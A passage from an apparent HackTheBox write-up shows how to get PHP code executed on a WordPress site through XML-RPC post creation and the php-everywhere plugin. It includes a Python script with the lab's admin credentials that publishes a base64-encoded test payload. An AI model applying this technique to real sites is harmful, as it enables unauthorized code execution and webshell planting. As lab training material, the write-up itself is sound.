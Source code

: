 That means the page allows `php` code in posts to be rendered(executed).
I think I can utilize this to upload and run a webshell.

# Shell as `www-data`

### Webshell through XMLRPC

My idea is, since this wordpress is allowing `wp.newpost` through `xmlrpc`, and `php-everywhere` plugin is available, I can upload webshell through this.
Using `php-everywhere` plugin, and `wp.newpost` method, let's make a new post for webshell test.

First, here's the code to upload a test post.

```python
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ cat post_webshell_test.py 
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods.posts import NewPost
from wordpress_xmlrpc.compat import xmlrpc_client
from wordpress_xmlrpc import WordPressPost

url = "http://pressed.htb/xmlrpc.php"
username = "admin"
password = "uhc-jan-finals-2022"

client = Client(url, username, password)

post = WordPressPost()
post.title = "PHP Injection Test"
post.content = """<!-- wp:php-everywhere-block/php {"code":"PD9waHAgZWNobygiV2Vic2hlbGwgaXMgaW5qZWN0YWJsZSEiKTsgPz4=","version":"3.0.0"} /-->"""
post.post_status = "publish" 

try:
    post_id = client.call(NewPost(post))
    print(f"Post created successfully with ID: {post_id}")
except Exception as e:
    print(f"An error occurred: {e}")


┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python post_webshell_test.py 
Post created successfully with ID: 47
```

I ran this code, and successfully uploaded the post.
This is supposed to print `Webshell is injectable!` on the post.
Let's test this with previous code `get_posts.py`.

```bash
┌──(kali㉿kali)-[~/htb/wordpress-xmlrpc]
└─$ python get_posts.py     
Post 1 Attributes:
  comment_status: closed
  content: <!-- wp:php-everywhere-block/php {"code":"PD9waHAgZWNobygiV2Vic2hlbGwgaXMgaW5qZWN0YWJsZSEiKTsgPz4=","version":"3.0.0"} /-->
  custom_fields: []
  date: 2024-12-01 10:24:27
  date_modified: 2024-12-01 10:24:27
```